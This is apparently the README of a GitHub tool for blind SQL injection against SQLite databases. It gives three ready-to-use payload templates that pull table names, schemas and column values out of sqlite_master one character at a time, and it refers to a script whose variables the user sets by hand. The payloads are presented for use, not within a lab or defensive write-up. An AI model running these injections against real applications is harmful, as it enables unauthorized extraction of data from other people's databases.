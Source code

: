 __________SQLiteBLINDInjection__________
Blind SQL Injection For SQLite Databases

https://github.com/aykutcanustun
Author: aykutcanustun

How to set queries:
__________________________________________________________________________________________________________
To retrieve table names from database, use this one:
' or UNICODE(SUBSTR((SELECT name FROM sqlite_master WHERE type='table'),{},1)){} {} --

To retrieve table schema, use this one:
' or UNICODE(SUBSTR((SELECT sql FROM sqlite_master WHERE tbl_name='$TABLE_NAME'),{},1)){} {} --

To retrieve values inside column, use this one:
' or UNICODE(SUBSTR((SELECT $COLUMN_NAME FROM sqlite_master WHERE tbl_name='$TABLE_NAME'),{},1)){} {} --

Replace $TABLE_NAME, $COLUMN_NAME with data that you retrieved from privious one!
___________________________________________________________________________________________________________

For using script, you have to set varibles manually:
I added comments to these lines!
